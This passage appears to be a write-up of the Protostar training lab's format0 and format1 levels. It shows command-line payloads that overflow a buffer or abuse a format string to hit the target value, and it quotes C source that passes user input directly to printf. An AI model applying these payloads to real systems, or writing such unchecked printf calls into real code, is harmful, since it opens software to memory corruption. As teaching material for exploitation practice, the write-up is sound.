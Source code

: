 The `sprintf` function in the code above has both buffer overflow and format string vulnerabilities. 
A standard buffer overflow would look like this (overwriting the target in the process):

```
user@protostar:/opt/protostar/bin$ ./format0 `python -c "print 'A'*64 + '\xef\xbe\xad\xde'"`
you have hit the target correctly :)
user@protostar:/opt/protostar/bin$ 
```

However, this method uses 68 bytes of input. The 64 "A"'s can be replaced with a format string which has a specific width field `%64x`. 
Now the exploit looks like this: 

```
user@protostar:/opt/protostar/bin$ ./format0 `python -c "print '%64x\xef\xbe\xad\xde'"`
you have hit the target correctly :)
user@protostar:/opt/protostar/bin$
```

This method uses 8 bytes of input.

### Format1

> This level shows how format strings can be used to modify arbitrary memory locations.

> Hints

> - objdump -t is your friend, and your input string lies far up the stack :)

> This level is at /opt/protostar/bin/format1

#### Source Code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
